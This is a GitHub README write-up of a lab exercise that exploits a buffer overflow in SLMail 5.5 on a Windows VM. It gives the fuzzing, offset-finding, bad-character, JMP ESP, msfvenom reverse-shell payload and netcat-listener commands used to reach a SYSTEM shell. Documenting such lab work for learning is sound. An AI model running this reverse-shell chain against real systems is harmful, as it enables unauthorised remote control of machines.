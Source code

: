 # Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:
- Initialized the BOF machine, accessed the command prompt as an administrator, and ran “slmgr /rearm” and “ipconfig” to determine the machine's IP address as “10.0.2.10”.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF1.png" alt="">
</p>


- Installed “12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe” on the Windows VM, rebooted it, and created a desktop shortcut for “SLmail.cpl”.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF2.png" alt="">
</p>


- Opened both “SLmail.cpl” & “Immunity debugger” with administrative rights.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF3.png" alt="">
</p>


- In “Immunity debugger”, attached the “SLmail.exe” file and ensured it's actively running.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF4-1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF4-2.png" alt="">
</p>

- On my Kali machine, downloaded the fuzzer script labeled “fuzzerScript.py” and stored it in a “BOF” folder on my desktop.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF5.png" alt="">
</p>


- In the same folder, created and edited a file named “fuzzy.py”. Line 13 requires the target IP address and port number.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF6.png" alt="">
</p>


- Conducted an nmap scan on the target VM to confirm open ports and noted the active “pop3” protocol.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF7.png" alt="">
</p>


- Updated “fuzzy.py” with the target IP address and port, then saved changes.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF8.png" alt="">
</p>


- Navigated to the BOF directory and executed the “fuzzy.py” script using the “python2 fuzzy.py” command.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF9.png" alt="">
</p>


- Observed the EIP update to “41414141” in Immunity debugger.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF10.png" alt="">
</p>


- Generated an MSF pattern of 3000 bytes using the “msf-pattern_create -l 3000” command to pinpoint control flow locations.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF11.png" alt="">
</p>


- Updated the “fuzzy.py” script's buffer with the generated MSF pattern and removed unnecessary loops.

<p align="center">
  <img src="" alt="">
</p>


- Reset SLmail.cpl and the Immunity debugger, re-executed the “fuzzy.py” script, and noted the updated EIP value in Immunity debugger.

<p align="center">
  <img src="" alt="">
</p>


- Determined the exact memory offset using the “msf-pattern_offset -l 3000 -q 39694438” command.

<p align="center">
  <img src="" alt="">
</p>


- Validated the offset by adjusting the buffer in “fuzzy.py” and observing the Immunity debugger's EIP value.

<p align="center">
  <img src="" alt="">
</p>


- Incorporated a list of potential bad characters into the “fuzzy.py” buffer to refine the exploit.

<p align="center">
  <img src="" alt="">
</p>


- Re-executed the adjusted “fuzzy.py” script and followed the ESP in dump within Immunity debugger to identify and remove any bad characters.

<p align="center">
  <img src="" alt="">
</p>


- Identified certain characters as "bad" and removed them from the "fuzzy.py" buffer.

<p align="center">
  <img src="" alt="">
</p>


- Re-executed the "fuzzy.py" script with the refined buffer and monitored the outcome in Immunity debugger.

<p align="center">
  <img src="" alt="">
</p>


- Searched for mona modules using the “!mona modules” command and identified a suitable dll with “!mona find -s "\xff\xe4" -m SLMFC.DLL”.

<p align="center">
  <img src="" alt="">
</p>


- Crafted a shell code using the “msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"” command.

<p align="center">
  <img src="" alt="">
</p>


- Integrated the shell code into “fuzzy.py” and adjusted the buffer accordingly.

<p align="center">
  <img src="" alt="">
</p>


- Established a netcat listener on the Kali machine using “nc -lvp 4444”.

<p align="center">
  <img src="" alt="">
</p>


- Restarted SLmail, ran the “fuzzy.py” script, and achieved system access with highest-level permissions as confirmed by the “whoami” command.

<p align="center">
  <img src="" alt="">
</p>

